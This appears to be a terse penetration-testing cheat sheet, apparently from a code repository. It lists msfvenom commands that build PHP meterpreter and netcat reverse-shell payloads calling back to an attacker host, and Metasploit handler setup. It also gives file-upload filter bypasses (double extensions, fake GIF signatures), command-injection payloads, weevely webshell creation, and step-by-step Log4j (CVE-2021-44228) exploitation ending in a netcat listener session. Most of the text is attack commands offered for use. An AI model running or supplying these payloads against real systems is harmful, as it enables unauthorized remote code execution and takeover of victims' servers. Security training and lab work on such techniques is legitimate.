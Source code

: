 >  msfvenom
- `msfvenom -p php/meterpreter/reverse_tcp lhost=IP lport=port -f raw > upload.php`
- `use exploit/multi/handler`
- `set payload php/meterpreter/reverse_tcp`

>  msfvenom reverce telnet
- `msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`


> Change the extension
- For example: .php.jpg

> Change the signature
- upload.jpg
- edit the php code and write GIF98 in the first line

> Change the filename in parameter


## <span style="color: #3498db; font-size: 0.8em;">  RCE (Remote Code Execution)</span>

>  Payloads such as
- | whoami
- && id
- or whoami


## <span style="color: #3498db; font-size: 0.8em;">  Create a web shell</span>

> weevely


## <span style="color: #3498db; font-size: 0.8em;">  Exploiting Log4j Vulnerability</span>

> Exploit for CVE-2021-44228
- cd log4j-shell-poc
- tar -xf jdk-8u202-linux-x64.tar.gz
- mv jdk1.8.0_202 /usr/bin/
- pluma poc.py
- replace jdk1.8.0_20/bin/javac with /usr/bin/jdk1.8.0_202/bin/javac - line 62
- replace jdk1.8.0_20/bin/java with /usr/bin/jdk1.8.0_202/bin/java - line 87
- replace jdk1.8.0_20/bin/java with /usr/bin/jdk1.8.0_202/bin/java - line 99
- save
- nc -lvp 9001
- Create the payload:
	* python3 poc.py --userip IP --webport 8000 --lport 9001
- copy the line "send me"
- past it in a text field vulnerable and receive the session in the netcat listener


----
